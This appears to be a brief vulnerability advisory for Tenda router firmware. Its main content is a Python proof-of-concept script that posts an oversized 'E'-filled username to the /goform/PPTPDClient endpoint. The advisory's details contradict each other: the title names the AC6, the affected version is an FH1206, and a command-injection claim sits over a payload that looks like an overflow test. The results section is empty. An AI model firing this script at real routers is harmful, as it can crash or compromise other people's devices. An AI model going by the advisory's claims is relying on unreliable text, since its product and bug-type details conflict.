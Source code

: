 # Command Injection Vulnerability in Tenda AC6 Firmware



## Affected Versions
- Tenda FH1206 V02.03.01.35


## Proof of Concept (PoC)

```python
import requests

host_port = "http://192.168.101.50:8008"
url = "/goform/PPTPDClient"

data = {"username": "E"*1000, "flag": "0"}

response = requests.post(host_port + url, data=data)

# Print the response code and content
print("Response status code: ", response.status_code)
print("Response content: ", response.text)
```

### PoC Run Results:




## Mitigation
- Apply the latest firmware update from Tenda to address this issue.
- Ensure proper input validation and sanitization to prevent command injection attacks.


